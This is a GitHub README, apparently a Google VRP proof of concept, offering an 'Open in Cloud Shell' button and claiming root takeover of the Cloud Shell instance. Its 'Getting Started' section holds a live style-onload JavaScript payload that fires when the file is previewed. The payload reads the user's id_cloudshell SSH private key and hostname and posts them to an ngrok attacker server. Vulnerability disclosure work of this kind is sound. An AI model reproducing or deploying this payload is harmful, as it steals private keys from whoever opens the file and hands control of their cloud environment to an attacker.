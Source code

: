 # Google VRP testing  
Google cloudshell instance take over (as root)

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?page=editor&cloudshell_git_repo=https://github.com/elmasryelec/-nls.git&cloudshell_open_in_editor=readme.md)

## Getting Started 
just need to preview this file to see the magic 
 
<style onload="{   
    var file_results = []  
    // this scape the container and get the ssh id_cloudshell private key
    read_file('file:///../id_cloudshell')          
    // getting the hostname (external connection)
    read_file('file:///etc/hostname')      
         
    setTimeout(function(){ 
        send_files(file_results)    
    },5000)  
 
    // function to read any file given the path with file protocol per example 'file:///etc/hostname'
    function read_file(file_to_read){
        var container_url = 'https://' + location.host + '/files/?uri='
        var get_file_id_url = container_url + file_to_read
        console.log(get_file_id_url) 
        fetch(get_file_id_url) // convert response to json 
            .then(response => { return response.json() } )
            .then(json => {
                var container_download_url = 'https://' + location.host + '/files/download/?id='
                var download_url = container_download_url + json.id
                fetch(download_url) 
                    .then(response => { return response.text() } )
                    .then(text => { 
                        console.log(file_to_read + ' '+ text)
                        file_results.push(file_to_read + ' '+ text)  
                    })
            })  
    }
 
    function send_files(result){ 
         // need to set netcat to listen per example nc -lvvv 55555
         let attacker_server =  ' https://56051573.ngrok.io'
         fetch(attacker_server, {
                method: 'post',
                body: JSON.stringify(result)
         })
    }
 
}"> 
  
 
